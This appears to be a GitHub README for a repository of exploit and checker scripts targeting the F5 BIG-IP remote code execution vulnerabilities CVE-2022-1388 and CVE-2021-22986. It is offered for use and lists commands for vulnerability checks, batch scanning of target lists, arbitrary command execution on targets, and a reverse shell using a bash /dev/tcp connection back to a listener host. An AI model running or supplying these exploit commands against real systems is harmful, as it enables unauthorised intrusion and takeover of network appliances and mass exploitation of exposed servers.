 # 20221-2021-F5-BIG-IP-IQ-RCE
I modified it so you can use CVE-2022-1388/CVE-2021-22986 and F5 BIG-IP RCE vuln checks and exploiters
the normal check.py and exp.py is 2022 but CVE_2021, newpoc, and f5.rest.jar are from the 2021 version

but all you gotta do is do python check.py to see all cmds

<h2><strong>2021 Basic use</strong></h2
python3 CVE_2021.py
Vuln check: python3 CVE_2021_22986.py -v true -u https://192.168.174.164
command execute: python3 CVE_2021.py -a true -u https://192.168.174.164 -c id
python3 CVE_2021.py -a true -u https://192.168.174.164 -c whoami
batch scan: python3 CVE_2021_22986.py -s true -f url.txt
Reserve Shell: python3 CVE_2021_22986.py -r true -u https://192.168.174.164 -c "bash -i >&/dev/tcp/192.168.174.129/8888 0>&1"
New POC: python3 newpoc.py https://192.168.174.164
  
        Validation mode：python CVE_2021.py -v true -u target_url 
        Attack mode：python CVE_2021.py -a true -u target_url -c command 
        Batch detection：python CVE_2021.py -s true -f file
        Bounce mode：python CVE_2021.py -r true -u target_url -c command 

<h2><strong>2022 Basic use</strong></h2

    Vulnerability name: F5 BIG-IP iControl Rest API exposed Check
    Function: single detection, batch detection                                    
    Single detection：python exp.py -u url
    Batch detection：python exp.py -f url.txt
    Check: python check.py -f url.txt
